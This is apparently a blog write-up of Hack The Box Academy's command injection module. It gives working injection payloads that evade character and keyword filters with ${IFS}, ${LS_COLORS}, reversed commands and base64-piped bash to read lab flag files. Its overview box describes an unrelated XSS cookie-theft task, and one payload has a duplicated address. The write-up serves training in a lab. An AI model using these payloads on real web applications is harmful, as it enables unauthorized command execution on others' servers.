 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Command Injections"
description: "Master command injection techniques with Hack The Box - Academy - Command Injections. Learn how to exploit vulnerable web applications and improve your penetration testing skills with expert insights from Zwarts Sec."
date:   2024-10-17 20:30
image:  /images/htb/command-injection/logo.png
tags:   [command-injection,cbbh]
categories: [htbacademy]
---
```


><b>Overview:</b>
<br/><br/>
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).<br/><br/>
Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:<br/><br/>
Apply the skills you learned in this module to achieve the following:<br/><br/>
 1 Identify a user-input field that is vulnerable to an XSS vulnerability.<br/>
 2 Find a working XSS payload that executes JavaScript code on the target's browser.<br/>
 3 Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag
<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/109/section/1031">Command Injection</a><br/>
<a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Command Injection - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space">PayloadsAllTheThings - Command Injection - Bypass without Space</a>

<hr/>

### Bypassing Other Blacklisted Characters - Exercises
#### Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?
A gotcha I ran into was I didn't add a `space` between the `;` and command I'm waas trying to execute e.g.
`Incorrect payload: 127.0.0.1${LS_COLORS:10:1}$(rev<<<'imaohw')` <br/><br/>
`Correct payload with a encoded \n (%0a)`
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'imaohw')
```
![Bypassing other blacklisted characters exercise gotcha](/images/htb/command-injection/bypassing-other-blacklisted-characters-gotcha.png)

#### Final payload:
Initially, I tried the following command but didn't retrieve the user in `/home`: `127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}%0a${PATH:0:1}home`. The issue stemmed from using the encoded newline character (`%0a`) immediately after `{ls,-la}`, which caused the command to execute incorrectly.

`Correct payload:`
```
127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}${IFS}${PATH:0:1}home
```
<hr/>

### Bypassing Blacklisted Commands
#### Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'tac')${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
<hr/>

### Advanced Command Obfuscation

#### Exercise: Can you test the below command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
`$(a="WhOaMi";printf %s "${a,,}")`<br/><br/>
First, we tested individual characters to identify which ones were filtered, such as the semicolon (`;`), space, pipe (`|`), ampersand (`&`), etc. In our case, all of these characters were blocked except for the newline character (`%0a`). To proceed, we needed to modify our payload to avoid using these filtered characters. Another solution is to `Base64 encode` the payload to bypass the filtering<br/><br/>

**Updated command without Base64 encoding:**
```
127.0.0.1%0a$(a="WhOaMi"%0aprintf${IFS}%s${IFS}"${a,,}")
```
**Updated command with Base64 encoding:**
```
127.0.0.1%0abash<<<$(base64%09-d<<<JChhPSJXaE9hTWkiO3ByaW50ZiAlcyAiJHthLCx9Iik=)
```

#### Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
**Execute the below command to base64 encode the payload:**
```
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
```

```
127.0.0.1127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.
<br/><br/>
Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

### What is the content of '/flag.txt'?
1. Try to click and analyze the every option and param you see.

2. Fuzz to find out which char are allowed and which are not allowed and on which param is it. (I FUZZ on all each and every param)

3. After finding the ALLOWED CHAR you might want to start injecting your command which will get "Malicious request denied!" (you're on a right track).

4. Try to escape the character from the methods you've learned from this module (focus more on "Bypassing Blacklisted Commands").

5. And now you can read the flag.

There's more than one method to get the flag.
<hr/>